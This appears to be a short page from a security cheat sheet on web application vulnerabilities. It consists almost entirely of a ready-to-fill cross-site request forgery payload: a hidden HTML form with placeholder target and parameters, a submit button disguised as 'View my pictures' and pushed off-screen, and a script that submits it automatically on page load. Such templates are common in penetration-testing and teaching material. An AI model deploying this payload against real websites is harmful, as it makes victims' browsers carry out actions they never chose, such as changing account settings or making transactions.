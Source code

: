 ```yaml
---
title: Vulnerabilities
category: Web Application
order: 2
---
```


> **CSRF**

{% highlight html %}
<form  ID=CSRF action="<website>" method="POST">

<input type="hidden" name="<paramater>" value="<value>"/>

<input type="submit" value="View my pictures" style="position: absolute; left: -9999px; width: 1px; height: 1px;"

       tabindex="-1"/>

</form>

<script>document.getElementById('CSRF').submit();</script>

{% endhighlight %}


